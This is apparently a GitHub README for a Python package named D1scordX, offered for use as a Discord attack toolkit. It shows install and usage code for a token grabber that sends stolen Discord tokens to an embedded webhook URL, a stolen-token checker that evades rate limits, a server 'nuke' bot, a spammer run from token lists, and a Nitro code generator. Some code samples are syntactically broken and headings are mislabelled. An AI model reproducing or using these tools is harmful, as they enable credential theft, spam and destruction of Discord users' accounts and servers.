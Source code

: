 <p align="center">
  <b>Link:</b><br>
  <a href="https://discord.gg/yBA7Wk67rH">Discord</a> |
  <a href="https://www.youtube.com/c/XinGod">YouTube</a> |
  <a href="https://github.com/XinOnGithub">Github</a>
  <br>
  <img src="https://cdn.discordapp.com/icons/791223032215240725/a_34b811424e1310fa438832dad9d113cf.gif">
</p>
<h1 align="center">Setup</h1>

## Tips:
- **Install module with**: ``pip install D1scordX``

## Features:

- CheckTokens   |   Check a token list from txt file and bypass ratelimit(discord api(not bypassing Cloudflare))
- TokenGrabber  |   Grab discord token using webhook
- SelfNukeBot   |   Nuke discord server with your own account
- TokenSpammer  |   Spam message with your **valid token**
- GenerateNitro |   Generate nitro and save on a txt file

## How to use:

- **CheckTokens**
```py
from D1scordX import CheckTokens

useragent = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
CheckTokens('filename.txt',useragent)

#in filename.txt we have token(list)
```

- **TokenGrabber**
```py
from D1scordX import TokenGrabber

webhook = 'https://discord.com/api/webhooks/826913797411045396/M1J0F8t7ngBLqWY1CEK3dDvCY4eN-YYLwhNkNKJj1MZKOKvwDViHgkqKGSa5TRjownWo'
TokenGrabber(webhook)
```

- **SelfNukeBot**
```py
from D1scordX import SelfNukeBot

token = 'token'
prefix = 'bot prefix ex:$'
SelfNukeBot(token,prefix)
```

- **SelfNukeBot**
```py
from D1scordX import TokenSpammer

TokenSpammer('my token file.txt',channel id (791225898242015255),message to send,10)
ex:TokenSpammer('tokens.txt',791225898242015255,hello world,10)

#in my token file.txt we have token(list)
```

- **SelfNukeBot**
```py
from D1scordX import GenerateNitro

GenerateNitro('outpout file.txt',count of nitro)
ex:GenerateNitro('mynitro.txt',100)
```